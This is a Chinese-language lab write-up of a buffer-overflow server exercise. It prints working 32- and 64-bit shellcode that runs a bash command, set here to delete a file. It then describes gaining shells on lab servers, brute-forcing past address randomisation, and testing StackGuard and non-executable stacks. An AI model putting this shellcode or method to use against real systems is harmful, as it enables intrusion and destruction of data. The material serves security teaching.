 ```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# Buffer Overflow Server

## 任务 1：熟悉 Shellcode

首先，我们在机器中新建一个任意的文件 `/tmp/deletefile`，修改 Shellcode，使得它能够删除这个文件，shellcode_32.py 如下：

```python title="shellcode_32.py"
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm /tmp/deletefile                                   *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)
```

同理，shellcode_64.py 如下：

```python title="shellcode_64.py"
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm /tmp/deletefile                                   *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_64', 'wb') as f:
  f.write(content)
```

编译并运行结果如下：

![](../../../../../assets/Pasted%20image%2020250708174403.png)

可以看到，我们成功实现了删除 `/tmp/deletefile` 文件的功能
***
## 任务 2：第一关

首先利用命令 `echo hello | nc 10.9.0.5 9090` 来获取服务器的帧指针和缓冲区地址：

![](../../../../../assets/Pasted%20image%2020250708212251.png)

我们可以构建 Payload 如下：

![](../../../../../assets/Pasted%20image%2020250708212315.png)

其中 start 控制 shellcode 的位置，ret 覆盖成 NOP 的指令区域范围内即可，offset 即我们之前得到的 ebp 与 buffer 地址之差再加 4，运行并验证：

![](../../../../../assets/Pasted%20image%2020250708211924.png)

可以看到，我们成功获取到了 server 的 shell
***
## 任务 3：第二关

同样，我们还是通过 `echo hello | nc 10.9.0.6 9090` 来获取信息：

![](../../../../../assets/Pasted%20image%2020250708212704.png)

此时我们获得了 Buffer 地址，但是帧指针地址却没有了，而我们知道缓冲区大小范围在 `[100,200]` 之间，因此我们在 Buffer 最大的情况下选取一个合适的返回地址，并在这个范围内全部覆盖成这个地址，那么不管怎么样我们都会覆盖到栈上真实的返回地址位置，代码如下：

![](../../../../../assets/Pasted%20image%2020250709205726.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250709205635.png)
***
## 任务 4：第三关

同理，我们先去获得 Buffer 地址和帧指针信息：

![](../../../../../assets/Pasted%20image%2020250710114723.png)

这一关的唯一难度在于，64 位的地址不可避免地会出现 0x00 字节，因此我们需要将 shellcode 挪到前面来（即存到 buffer 当中），将返回地址改为 buffer 的地址，这样即使出现 0x00 字节被截断了，栈上的 0x00 字节也会被我们复用，代码如下：

![](../../../../../assets/Pasted%20image%2020250710155636.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250710155808.png)

可以看到，我们成功获取到了 server 的 shell
***
## 任务 5：第四关

同样，我们先去获得 Buffer 地址和帧指针信息：

![](../../../../../assets/Pasted%20image%2020250710155944.png)

对比起第三关，这一关的 buffer 大小只有 96 字节，shellcode 放不下，但是因为在 stack 源码当中采用 `strcpy(buffer, str)`，我们的 shellcode 被完整地保存在了 str 中！因此我们需要将返回地址改为 str 在栈上的地址即可，用 `gcc -DBUF_SIZE=80 -DSHOW_FP -z execstack -fno-stack-protector -o stack -g stack.c` 编译源码 stack.c 并用 gdb 调试：

![](../../../../../assets/Pasted%20image%2020250710162453.png)

得到 str 相对 buffer 的 offset 为 1168，那么可以编写 Payload：

![](../../../../../assets/Pasted%20image%2020250710163000.png)

运行并验证：

![](../../../../../assets/Pasted%20image%2020250710162929.png)
***
## 任务 6：防御机制（地址随机化)

重新启用地址空间布局随机化，向第一关和第三关服务器多次发送 hello 信息：

![](../../../../../assets/Pasted%20image%2020250710163256.png)

可以看到，每次发送消息，缓冲区地址和帧指针地址都不一样了，因此我们只能由此知道缓冲区的大小，无法直接获得缓冲区的地址，使得攻击更加困难

使用脚本我们反复进行攻击：

![](../../../../../assets/Pasted%20image%2020250711221536.png)

![](../../../../../assets/Pasted%20image%2020250711221546.png)

在 13 分钟时才成功攻击到
***
## 任务 7：其他防护措施

### 任务 7.a：启用 StackGuard 防护

利用命令行 `gcc -DBUF_SIZE=100 -DSHOW_FP -z execstack -o stack stack.c` 启用 StackGuard 防护重启编译，并输入 badfile：

![](../../../../../assets/Pasted%20image%2020250711223308.png)

StackGuard 防护检测到栈溢出和崩溃，所以终止程序，攻击并没有成功
***
### 任务 7.b：启用不可执行栈防护

重新编辑 shellcode 下的 Makefile，去掉 `-z execstack` 选项，重新编译并运行：

![](../../../../../assets/Pasted%20image%2020250711223745.png)

可以看到，发生了段错误。程序访问了不可执行的栈空间，导致发生了段错误。当栈被设置为不可执行时，任何试图在栈上执行的指令都会触发 `Segmentation fault` 错误